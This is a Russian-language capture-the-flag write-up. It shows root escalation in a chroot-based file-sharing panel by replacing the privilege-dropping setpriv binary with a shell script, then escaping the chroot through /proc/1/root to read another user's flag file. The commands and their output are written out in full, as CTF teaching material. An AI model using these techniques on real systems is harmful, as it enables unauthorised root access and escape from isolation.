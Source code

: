 # Капибудильник



## Описание

> В Капибаровске наступил сезон дождей. Под звуки капель по стеклу так сладко спится, что жители выключают свои будильники даже не просыпаясь и опаздывают на работу.
> 
> Получите доступ к обновлениям их умных капибудильников и заблокируйте функцию отключения. Будильники скачивают обновления с сервиса CapyFile Sharing у пользователя clock.
> 
> Мы зарегистрировали тебе аккаунт по соседству на этом сервисе, подключайся скорее. Дела не ждут!

И дали исходники панели: [cfsd.tar.gz](give/cfsd/)

## Решение

### Осматриваемся

Логинимся и видим TUI панель, с выбором действий и содержимым файла.  
![alt text](img/1.png)


Можно открыть ascii картинки:
![alt text](img/2.png)

![alt text](img/3.png)

Можно выбрать `Выберете действие - Открыть терминал - posix shell` и тогда проваливаемся в шелл:
```sh
/ $ ls -laht
total 24K
drwxr-sr-x    7 u214528  u214528     4.0K Apr 20 17:10 .
drwxr-sr-x    7 u214528  u214528     4.0K Apr 20 17:10 ..
drwxr-xr-x    2 0        0           4.0K Apr 20 17:10 etc
dr-xr-xr-x  738 0        0              0 Apr 20 17:10 proc
drwxr-xr-x    2 0        0           4.0K Apr 15 22:20 bin
drwxr-xr-x    2 0        0           4.0K Apr 15 22:20 lib
drwxr-xr-x    4 u214528  u214528     4.0K Apr 15 21:50 files
```
Мы зашли под юзером `u214528` и сейчас в корне (причём мы им владеем). Ещё здесь есть рутовые бинари:
```sh
/ $ ls -l bin
total 828
-rwxr-xr-x    1 0        0           808712 Apr 15 22:20 busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 cat -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 chmod -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 cp -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 find -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 id -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ln -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ls -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 mkdir -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 mv -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 ps -> busybox
-rwxr-xr-x    1 0        0            34712 Apr 15 22:20 setpriv
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 sh -> busybox
lrwxrwxrwx    1 0        0                7 Apr 15 22:20 wget -> busybox
```

и `/proc`:
```sh
/ $ ps aux
PID   USER     TIME  COMMAND
    1 0         0:00 timeout -s 9 10m tini -s -- env GOMAXPROCS=7 /opt/cfsd/panel
   19 0         0:00 tini -s -- env GOMAXPROCS=7 /opt/cfsd/panel
   20 0         0:00 /opt/cfsd/panel
   34 u214528   0:00 /bin/sh
   38 u214528   0:00 ps aux
```

Что интересно, панель исполняется от рута, а шелл от `u214528`.

### LPE

Смотрим в исходники панели:
- [cfsd/cmd/panel/main.go](./give/cfsd/cmd/panel/main.go) - запускается tui программу
- [cfsd/tui](./give/cfsd/tui/) - исходники tui интерфейса
- [cfsd/internal/command/factory.go](./give/cfsd/internal/command/factory.go) - а вот тут формируются команды для исполнения, в том числе posix shell.

Получается, все команды исполняются так:
```sh
/usr/sbin/chroot /home/u214528 /bin/setpriv --nnp --regid 1001 --reuid 1001 --clear-groups --reset-env <cmd>
```
Что происходит:
1. Панель спавнит новый процесс, который является `chroot`
2. Процесс перемешается в новый рут: `/home/u214528`
3. И исполняет команду внутри нового рута `/bin/setpriv`, которая по всей видимости сбрасывает привилегии.
4. Затем исполняется произвольная команда

Итак у нас чрут и дроп привилегий, привилегии дропаются с помощью бинаря `/bin/setpriv`, который на самом деле `/home/u214528/bin/setpriv`.

Хмм, но при этом мы владельцы чрута, где находится директория `/bin`. Это значит мы можем её переименовывать и подсунуть свой `setpriv`!

Пробуем:
```sh
/ $ mv bin bin2
/ $ bin2/mkdir bin
/ $ bin2/cp /bin2/sh /bin/sh
/ $ bin2/cat > /bin/setpriv
#!/bin/sh

/bin/sh
/ $ /bin2/chmod +x /bin/setpriv
```

Получаем такой лейаут диры:
```sh
/ $ /bin2/ls -la bin
total 804
drwxr-sr-x    2 u214528  u214528       4096 Apr 20 17:29 .
drwxr-sr-x    8 u214528  u214528       4096 Apr 20 17:29 ..
-rwxr-xr-x    1 u214528  u214528         19 Apr 20 17:29 setpriv
-rwxr-xr-x    1 u214528  u214528     808712 Apr 20 17:29 sh
```

Выходим (ctrl+d) и заходим обратно в шелл:
```sh
/ # bin2/id
uid=0 gid=0 groups=0,1,2,3,4,6,10,11,20,26,27
```

Опа, теперь мы рут!

### Jail escape

Раз мы теперь рут, то мы можем посмотреть `/proc` процессов от рута. Внутри прока есть директории `/proc/<pid>/root`.  
Залистим что там есть:

```sh
/ # bin2/ls /proc/*/root/
/proc/1/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/19/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/20/root/:
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var

/proc/41/root/:
bin    bin2   etc    files  lib    proc

/proc/42/root/:
bin    bin2   etc    files  lib    proc

/proc/self/root/:
bin    bin2   etc    files  lib    proc

/proc/thread-self/root/:
bin    bin2   etc    files  lib    proc
```

Процессы 1, 19 и 20 явно не чрута. А это значит, что можно сделать чрут в них:
```sh
/ # bin2/busybox chroot /proc/1/root/
/ # ls -l
total 80
drwxr-xr-x   1 root root 4096 Apr 15 22:20 bin
drwxr-xr-x   5 root root  360 Apr 20 17:29 dev
drwxr-xr-x   1 root root 4096 Apr 20 17:29 etc
drwxr-xr-x   1 root root 4096 Apr 20 17:29 home
drwxr-xr-x   1 root root 4096 Feb 13 23:04 lib
drwxr-xr-x   5 root root 4096 Feb 13 23:04 media
drwxr-xr-x   2 root root 4096 Feb 13 23:04 mnt
drwxr-xr-x   1 root root 4096 Apr 15 22:20 opt
dr-xr-xr-x 674 root root    0 Apr 20 17:29 proc
drwx------   1 root root 4096 Apr 20 17:33 root
drwxr-xr-x   1 root root 4096 Apr 20 17:29 run
drwxr-xr-x   1 root root 4096 Apr 15 22:20 sbin
drwxr-xr-x   2 root root 4096 Feb 13 23:04 srv
dr-xr-xr-x  13 root root    0 Apr 20 17:29 sys
drwxrwxrwt   2 root root 4096 Feb 13 23:04 tmp
drwxr-xr-x   1 root root 4096 Apr 15 22:20 usr
drwxr-xr-x   1 root root 4096 Feb 13 23:04 var
```

Вылезли и смотрим, что там по пользователям:
```sh
/ # ls -l /home
total 20
drwxr-sr-x 1 clock   clock   4096 Apr 15 22:20 clock
drwxr-xr-x 1 root    root    4096 Apr 15 22:20 template
drwxr-sr-x 8 u214528 u214528 4096 Apr 20 17:29 u214528
```

Ога, `clock` на месте, как и говорилось в легенде.  
Смотрим все его файлы:

```sh
/ # du -a /home/clock/files
352     /home/clock/files/capi/yuzu.jpg
124     /home/clock/files/capi/chill.jpeg
104     /home/clock/files/capi/safe.jpg
584     /home/clock/files/capi
28      /home/clock/files/linux/logo2.jpg
8       /home/clock/files/linux/capi_linux.md
40      /home/clock/files/linux
4       /home/clock/files/speech.md
4       /home/clock/files/patch_out_snoozing.txt
636     /home/clock/files
```

Есть какой-то интересный файл: `/home/clock/files/patch_out_snoozing.txt`.  
Смотрим в него и забираем флаг:
```sh
/ # cat /home/clock/files/patch_out_snoozing.txt
=== Утром капибары ===
1. качают пресс
2. бегут по территории
3. занимаются на турнике
4. отдыхают на берегу

Днём сдают флаг: tctf{xxxxxxxxxxxxxxxxxxxxxxxxxxx}

=== Вечером капибары ===
1. качают пресс
2. бегут по территории
3. занимаются на турнике
4. отдыхают на берегу
5. поднимают гантели
```
